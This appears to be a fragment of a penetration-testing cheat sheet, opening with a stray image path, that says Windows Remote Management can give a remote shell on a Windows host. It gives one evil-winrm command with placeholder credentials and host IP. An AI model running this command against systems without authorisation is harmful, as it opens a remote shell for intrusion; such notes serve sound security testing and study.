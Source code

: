 Windows remote management, can be used to get a reverse shell on a windows host

- `evil-winrm -u USER -p 'PASSWORD' -i HOST_IP`